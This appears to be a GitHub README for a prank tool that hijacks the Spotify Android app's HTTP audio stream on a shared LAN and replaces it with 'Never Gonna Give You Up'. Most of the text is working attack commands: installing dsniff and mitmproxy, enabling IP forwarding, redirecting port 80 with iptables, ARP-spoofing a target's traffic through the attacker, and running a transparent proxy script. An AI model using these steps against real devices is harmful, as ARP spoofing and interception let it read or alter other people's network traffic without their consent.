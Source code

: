 ![](https://github.com/kjempelodott/rickify/blob/master/f9z.png)

The Spotify app for Android streams the first few seconds of a track over HTTP. Being on the same LAN as your target, this can easily be pwned. It turns out the Spotify app for Android will happily accept and play any Ogg-file.

**Notes:**
* This will not work with IPv6
* This will not work for already cached/downloaded tracks

## We know the game and we're gonna play it

Install the required tools:

```
apt-get install dsniff
pip install mitmproxy
```

## You know the rules and so do I

Turn on port forwarding and forward HTTP traffic to port 8080:

```
sysctl -w net.ipv4.ip_forward=1
iptables -t nat -I PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
```

## A full commitment's what I'm thinking of

Identify the gateway and the target IP address. Use Wireshark or whatever. Then trick your target device into sending all traffic to you instead of the gateway:

```
arpspoof -t [target ip] [gateway ip] # e.g. -t 192.168.1.101 192.168.1.1
```

## You wouldn't get this from any other guy

Get a copy of *Never Gonna Give You Up* in Ogg-format. You probably have to change the filename in line 5 in *rickroll.py*. Setup a transparent proxy on port 8080:

```
mitmproxy -T -p 8080 -s rickroll.py
```